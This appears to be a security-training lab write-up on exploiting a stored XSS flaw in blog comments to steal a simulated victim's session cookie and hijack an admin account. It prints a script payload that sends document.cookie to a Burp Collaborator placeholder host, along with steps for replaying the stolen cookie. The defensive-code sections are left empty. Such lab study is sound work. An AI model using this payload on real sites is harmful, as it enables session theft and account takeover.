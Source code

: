 ## Exploiting cross-site scripting to steal cookies

### Objective:
- This lab contains a **stored XSS** vulnerability in the blog comments function. 
- A simulated victim user views all comments after they are posted. 
- To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

### Security Weakness:

### Exploitation Methodology:
1. Using Burp Suite Professional, go to the **Collaborator** tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```javascript
<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```
4. This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server. 
5. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
![](./Images/7992664ec2705703a8a67cc1878fb42a.png)
6. Take a note of the value of the victim's cookie in the POST body.
7. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.
8. We can also replace the captured admin users session token and replace it in the browser storage to load admin user's account page. 
![](./Images/5838ab83abd924b32b3dc63b62044a7b.png)

### Insecure Code:

### Secure Code:
